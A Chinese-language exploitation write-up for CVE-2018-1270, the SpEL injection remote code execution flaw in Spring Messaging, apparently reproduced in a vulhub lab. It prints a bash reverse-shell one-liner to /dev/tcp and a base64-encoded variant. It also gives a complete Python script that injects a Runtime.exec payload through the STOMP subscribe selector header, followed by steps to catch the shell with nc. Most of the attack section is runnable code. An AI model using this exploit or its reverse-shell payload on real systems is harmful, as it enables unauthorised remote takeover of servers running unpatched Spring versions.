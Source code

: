 # Spring Messaging 远程命令执行漏洞（CVE-2018-1270）

# 漏洞描述

spring messaging为spring框架提供消息支持，其上层协议是STOMP，底层通信基于SockJS，

在spring messaging中，其允许客户端订阅消息，并使用selector过滤消息。selector用SpEL表达式编写，并使用StandardEvaluationContext解析，造成命令执行漏洞。


# 影响范围

Spring Framework 5.0 to 5.0.4.
Spring Framework 4.3 to 4.3.14
已不支持的旧版本仍然受影响





# 漏洞复现

对反弹shell的poc进行Base64编码（java反弹shell都需要先编码，否则不会成功，原因是runtime不支持管道符）



```bash
bash -i >& /dev/tcp/xx.xxx.xxx.xx/9090 0>&1
```



进行base64编码

`bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuMjIxLjE4NC4yMjQvNTIwMCAwPiYx}|{base64,-d}|{bash,-i}`

![image-20220503144454713](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220503144454713.png)





EXP:

```
#!/usr/bin/env python3
import requests
import random
import string
import time
import threading
import logging
import sys
import json

logging.basicConfig(stream=sys.stdout, level=logging.INFO)

def random_str(length):
    letters = string.ascii_lowercase + string.digits
    return ''.join(random.choice(letters) for c in range(length))


class SockJS(threading.Thread):
    def __init__(self, url, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'
        self.daemon = True
        self.session = requests.session()
        self.session.headers = {
            'Referer': url,
            'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'
        }
        self.t = int(time.time()*1000)

    def run(self):
        url = f'{self.base}/htmlfile?c=_jp.vulhub'
        response = self.session.get(url, stream=True)
        for line in response.iter_lines():
            time.sleep(0.5)
    
    def send(self, command, headers, body=''):
        data = [command.upper(), '\n']

        data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))
        
        data.append('\n\n')
        data.append(body)
        data.append('\x00')
        data = json.dumps([''.join(data)])

        response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)
        if response.status_code != 204:
            logging.info(f"send '{command}' data error.")
        else:
            logging.info(f"send '{command}' data success.")

    def __del__(self):
        self.session.close()


sockjs = SockJS('http://xxx.xxx.xxx.xxx/gs-guide-websocket')
sockjs.start()
time.sleep(1)

sockjs.send('connect', {
    'accept-version': '1.1,1.0',
    'heart-beat': '10000,10000'
})
sockjs.send('subscribe', {
    'selector': "T(java.lang.Runtime).getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwMC4yMy85MDkwIDA+JjE=}|{base64,-d}|{bash,-i}')",
    'id': 'sub-0',
    'destination': '/topic/greetings'
})

data = json.dumps({'name': 'vulhub'})
sockjs.send('send', {
    'content-length': len(data),
    'destination': '/app/hello'
}, data)

```

 创建一个py文件，使用vim打开  保存

将IP修改为需要利用或验证的IP，下面将编码后的反弹shell命令填进去

![image-20220503145828430](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220503145828430.png)

 使用python执行该文件

nc监听

![image-20220503150039300](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220503150039300.png)

成功反弹shell

